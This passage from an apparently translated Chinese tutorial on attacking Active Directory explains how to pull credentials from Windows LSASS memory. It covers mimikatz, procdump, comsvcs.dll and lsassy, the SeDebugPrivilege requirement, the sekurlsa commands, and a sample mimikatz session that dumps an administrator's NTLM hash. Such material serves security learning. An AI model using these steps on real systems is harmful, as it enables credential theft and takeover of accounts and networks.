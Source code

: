 从 LSASS 进程中提取凭证的常用方法是使用 [mimikatz](https://github.com/gentilkiwi/mimikatz)。我们可以在目标机上直接启动 mimikatz，或者用一些工具如 [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)、[comsvcs.dll](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/) 或 [werfault.exe](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/) [转储LSASS内存](https://www.deepinstinct.com/2021/01/24/lsass-memory-dumps-are-stealthier-than-ever-before/)，然后用 mimikatz 或 [pypikatz](https://github.com/skelsec/pypykatz) 处理转储的这些内存。也可以用 [lsassy](https://github.com/Hackndo/lsassy) 远程读取转储，避免下载整个内存转储，这可能需要几兆。

要用 mimikatz 提取凭证，有几个命令你应该知道。它们会从登录的用户那里重试不同的秘密：
<li>
`sekurlsa::logonpasswords`：提取 NT 哈希和密码。</li>
<li>
`sekurlsa::ekeys`：获取 Kerberos keys。</li>
<li>
`sekurlsa::tickets`：获取存在这个机器上的 Kerberos tickets。</li>
强调一下，为了访问 LSASS 进程的内存，你需要 [SeDebugPrivilege](https://devblogs.microsoft.com/oldnewthing/20080314-00/?p=23113)，它允许用户对其他用户的进程进行调试。通常只有管理员才有这个权限（但如果其他用户得到这个权限，她也可以成为管理员）。

此外，在试图转储 LSASS 内存的进程中，SeDebugPrivilege 必须是开启。默认情况下，在 Powershell 中启用，在 CMD 中禁用（因此在它们的子进程中）。如果你正在启动 mimikatz，你可以通过使用 `privilege::debug` 命令启用它。在其他情况下，你可以用 Powershell 启动进程，使用 `powershell.exe &lt;command&gt;`，或者使用一些工具如 [sepriv](https://github.com/Zer1t0/sepriv) 在 CMD 中启用它。

> Dump credentials with mimikatz

```
C:\&gt;.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       &gt; https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        &gt; https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 629376 (00000000:00099a80)
Session           : Interactive from 1
User Name         : Administrator
Domain            : CONTOSO
Logon Server      : DC01
Logon Time        : 03/05/2021 12:34:17
SID               : S-1-5-21-1372086773-2238746523-2939299801-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CONTOSO
         * NTLM     : b73fdfe10e87b4ca5c0d957f81de6863
         * SHA1     : 88cbc713492c32909ee5deddee08c7e31c70d716
         * DPAPI    : 0c1e1d360ebc8f790ff9577fcdb60d75
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CONTOSO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CONTOSO.LOCAL
         * Password : (null)
        ssp :
```

[dc01]: PS C:\Users\Administrator\Documents&gt; whoami
[dc01]: PS C:\Users\Administrator\Documents&gt; hostname